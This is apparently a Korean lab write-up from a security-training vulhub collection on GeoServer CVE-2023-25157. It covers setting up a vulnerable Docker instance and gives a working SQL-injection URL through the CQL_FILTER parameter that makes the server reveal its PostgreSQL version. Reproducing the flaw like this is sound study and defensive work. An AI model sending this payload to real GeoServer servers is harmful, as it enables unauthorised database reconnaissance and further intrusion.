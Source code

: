# geoserver/CVE-2023-25157
---
##### Contributor
- 최석규

#### 요약
- GeoServer는 자바로 만들어진 서버이며, 지리 정보를 편집 및 공유할 수 있는 서비스를 제공한다.
- 2.22.1과 2.21.4 이전 버전에서 SQL injection이 있다.
- OGC (Open Geospatial Consortium) 표준에 의해 정의된 필터 및 함수식에서 발견 되었다.
- URL 파라미터에 postgis를 포함하는 workspace의 이름과 타입을 삽입 시 데이터베이스 버전 정보가 노출되는 취약점이다.

참고 자료
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf


#### 환경구성
- ```docker-compose up -d```
- ```http://your-ip:8080/geoserver```로 geosever 확인
- workspace name : vulhub
- Data store name : pg
- Feature type name : example
- One of attribute from feature type: name
- 위와 같은 구성 확인


#### SQL 구문 삽입
- ```http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true```

#### 결과

![image](https://github.com/ANG-web/whitehat-school-vulhub/assets/70057651/d292375b-c2a2-4a89-92ae-261bf0ffa346)



#### 정리
- geoserver에서 postgis 데이터베이스를 사용하는 작업공간에 이름과 타입을 매개변수로 넘길 경우 데이터베이스의 버전 정보가 노출된다.
- 이 취약점은 데이터베이스 정보를 활용해 추가적인 2차 공격이 일어날 수 있기 때문에 빠른 패칙가 필요하다.
